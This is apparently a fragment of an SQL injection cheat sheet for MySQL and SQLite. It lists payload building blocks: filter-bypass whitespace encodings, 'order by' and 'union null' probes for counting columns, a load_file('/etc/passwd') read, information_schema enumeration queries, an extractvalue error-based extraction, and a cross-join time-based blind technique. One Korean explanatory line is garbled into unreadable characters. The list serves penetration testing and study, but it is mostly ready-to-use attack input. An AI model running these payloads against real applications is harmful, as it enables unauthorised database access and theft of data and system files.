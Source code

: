 ```
ord()

- add string
concat()
group_concat()

- string to hex
'admin' = 0x61646d696e

- whitespace bypass
%0a, %a0, %20, %09, %0d, %0c, %b, /**/, ()

- Conditional
if(1=1, 1, 0), case when 1=1 then 1 else 0 end;

- length func
length(), char_length(), character_length()

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- etc
select load_file('/etc/passwd')
select database_name, table_name from mysql.innodb_table_stats
select table_schema from information_schema.schemas
select table_name from information_schema.tables
select column_name from information_schema.columns
select extractvalue(rand(),concat(0x3a,((select <column_name> from <table_name> limit 0, 1))))

- join
join�� �댁슜�댁꽌 �뚯씠釉� �щ윭媛쒕� �댁뼱 以� 寃쎌슦 �쎄컙�� �щ┰ �꾩긽�� 諛쒖깮�쒕떎. �대� �댁슜�댁꽌 Time Based Blind SQL Injection�� �� �� �덈떎.
ex ) cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns on 1=1
```

### SQLite
```
- comments
--, /**/

- length check
length()

- like
1=1, 1 in(1), 1 like 1, 1==1, !(1<>1)

- version check
sqlite_version()

- string split
substr()

- add string
||, concat()

- sleep func
sqlite3_sleep()
```